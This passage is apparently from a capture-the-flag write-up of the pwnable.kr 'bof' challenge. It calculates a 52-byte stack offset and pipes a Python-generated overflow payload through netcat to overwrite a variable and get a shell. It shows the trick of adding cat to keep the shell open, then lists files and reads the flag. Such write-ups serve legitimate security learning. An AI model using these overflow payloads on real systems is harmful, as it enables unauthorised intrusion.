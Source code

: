 ```python
python
>>> hex(0xffffd6d0 + 12)
0xffffd6dc
# Remember, one word size on 32 bit machine is 4 bytes so 4*3=12
```

Which matches what peda showed.

## X marks the spot

OK - so we know `deadbeef` lives at `0xffffd710` and our input starts at `0x0xffffd6dc`. We can figure out what we need to send based on that (like we already did above):

```python
>>> 0xffffd710 - 0xffffd6dc
52
```

Send it something 52 bytes, and then `0xcafebabe` (__*in little endian*__):

```bash
 python2 -c "print 'A' * 52 + '\xbe\xba\xfe\xca'" | nc pwnable.kr 9000
*** stack smashing detected ***: /home/bof/bof terminated
overflow me :
```

Hm.. that didn't work out. Seems like it immediately closes the connection, since we get it to execute:

```c
		system("/bin/sh");
```

But that then immediately closes from reading stdin which is nothing.

Reading online, can do `cat` stuff to keep it open:

* [Here](https://stackoverflow.com/a/54376942)
* [And here](https://reverseengineering.stackexchange.com/questions/11777/how-to-effectively-bypass-gcc-stack-smashing-detection)

Keeping `/bin/sh` open:

```bash
(python2 -c "print 'A' * 52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
^C
```
flag is `daddy, I just pwned a buFFer :)`

